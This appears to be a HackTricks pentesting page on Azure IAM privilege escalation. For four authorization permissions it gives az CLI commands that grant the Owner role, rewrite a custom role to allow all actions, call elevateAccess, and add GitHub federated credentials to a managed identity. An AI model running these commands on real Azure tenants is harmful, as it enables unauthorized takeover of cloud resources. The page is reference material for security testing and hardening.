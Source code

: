 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Fore more information check:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

This permission allows to assign roles to principals over a specific scope, allowing an attacker to escalate privileges by assigning himself a more privileged role:

```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```

### Microsoft.Authorization/roleDefinitions/Write

This permission allows to modify the permissions granted by a role, allowing an attacker to escalate privileges by granting more permissions to a role he has assigned.

Create the file `role.json` with the following **content**:

```json
{
  "Name": "<name of the role>",
  "IsCustom": true,
  "Description": "Custom role with elevated privileges",
  "Actions": ["*"],
  "NotActions": [],
  "DataActions": ["*"],
  "NotDataActions": [],
  "AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```

Then update the role permissions with the previous definition calling:

```bash
az role definition update --role-definition role.json
```

### Microsoft.Authorization/elevateAccess/action

This permissions allows to elevate privileges and be able to assign permissions to any principal to Azure resources. It's meant to be given to Entra ID Global Administrators so they can also manage permissions over Azure resources.

> [!TIP]
> I think the user need to be Global Administrator in Entrad ID for the elevate call to work.

```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```

### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

This permission allows to add Federated credentials to managed identities. E.g. give access to Github Actions in a repo to a managed identity. Then, it allows to **access any user defined managed identity**.

Example command to give access to a repo in Github to the a managed identity:

```bash
# Generic example:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```

{{#include ../../../banners/hacktricks-training.md}}




